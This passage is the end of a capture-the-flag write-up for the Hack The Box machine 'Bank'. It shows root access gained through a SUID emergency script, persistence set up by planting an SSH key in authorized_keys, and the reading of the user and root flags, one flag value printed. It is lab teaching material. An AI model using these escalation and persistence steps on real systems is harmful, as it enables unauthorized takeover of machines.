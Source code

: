 This Python script executes the `emergency` binary in `/var/htb/bin`, if we
enter `y` after the prompt, and we know that this binary has the SUID bit set.
It may give us a shell as `root`!

## Privilege escalation (SUID)

### Exploitation

Let's execute the `/var/htb/emergency` Python script:

```sh
www-data@bank:/var/www/bank/uploads$ /var/htb/emergency
```

```
[!] Do you want to get a root shell? (THIS SCRIPT IS FOR EMERGENCY ONLY) [y/n]:
```

Let's enter `y`.

```
[!] Do you want to get a root shell? (THIS SCRIPT IS FOR EMERGENCY ONLY) [y/n]: y
Popping up root shell..
#
```

Nice!

### Establishing persistence

Let's use SSH to establish persistence.

Our home folder doesn't contain a `.ssh` folder, so I'll create one. Then I'll
create a private key, and I'll add the corresponding public key to
`authorized_keys`. Finally, I'll connect over SSH to Bank as `root`.

## System enumeration

If we run `whoami`, we see that we're `root`!

### Flags

If we check `chris`'s home folder, we find the user flag.

```sh
root@bank:~# cat "/home/chris/user.txt"
```

```
8380b230e89279741dc9f1729dda57b7
```

And as usual, we can find the root flag in our home folder.

```sh
root@bank:~# cat "/root/root.txt"
```
